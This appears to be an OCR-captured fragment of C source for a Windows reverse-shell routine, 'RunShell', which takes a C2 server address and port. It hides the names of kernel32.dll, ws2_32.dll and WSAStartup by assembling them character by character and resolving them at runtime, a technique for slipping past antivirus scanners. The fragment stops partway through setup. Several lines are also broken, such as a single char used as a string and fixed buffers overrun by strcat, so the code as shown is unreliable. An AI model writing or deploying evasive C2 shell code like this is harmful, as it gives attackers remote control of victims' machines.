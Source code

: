 ```c
  [in, optional]      LPVOID                lpEnvironment,
  [in, optional]      LPCSTR                lpCurrentDirectory,
  [in]                LPSTARTUPINFOA        lpStartupInfo,
  [out]               LPPROCESS_INFORMATION lpProcessInformation
);

typedef DWORD (WINAPI * myNotWaitForSingleObject)(
  [in] HANDLE hHandle,
  [in] DWORD  dwMilliseconds
);

typedef BOOL (WINAPI * myNotCloseHandle)(
  [in] HANDLE hObject
);

void RunShell(char* ddd, int eee) { // C2Server == ddd, C2Port == eee
        SOCKET aaa; //mySocket
        struct sockaddr_in bbb; //addr
        WSADATA ccc; //version

		char lib_kern = "k";
		strcat(lib_kern,"e");
		strcat(lib_kern,"r");
		strcat(lib_kern,"n");
		strcat(lib_kern,"e");
		strcat(lib_kern,"l");
		strcat(lib_kern,"3");
		strcat(lib_kern,"2");
		strcat(lib_kern,".");
		strcat(lib_kern,"d");
		strcat(lib_kern,"l");
		strcat(lib_kern,"l");
		HMODULE hkernel32 = LoadLibraryA(lib_kern);

		char lib[] = "w";
		strcat(lib,"s");
		strcat(lib,"2");
		strcat(lib,"_");
		strcat(lib,"3");
		strcat(lib,"2");
		strcat(lib,".");
		strcat(lib,"d");
		strcat(lib,"l");
		strcat(lib,"l");
		
		HMODULE hws2_32 = LoadLibraryA((LPCSTR)lib); // LoadLibraryA("ws2_32.dll");
		char func[] = "W";
		strcat(func,"S");
		strcat(func,"A");
		strcat(func,"S");
		strcat(func,"t");
		strcat(func,"a");
		strcat(func,"r");
		strcat(func,"t");
		strcat(func,"u");
		strcat(func,"p");
        myNotWSAStartup notWSAStartup = (myNotWSAStartup) GetProcAddress(hws2_32,func); // GetProcAddress(hws2_32,"WSAStartup");
        notWSAStartup(MAKEWORD(2,2), &ccc);

		char func2[] = "W";
		strcat(func2,"S");
		strcat(func2,"A");
```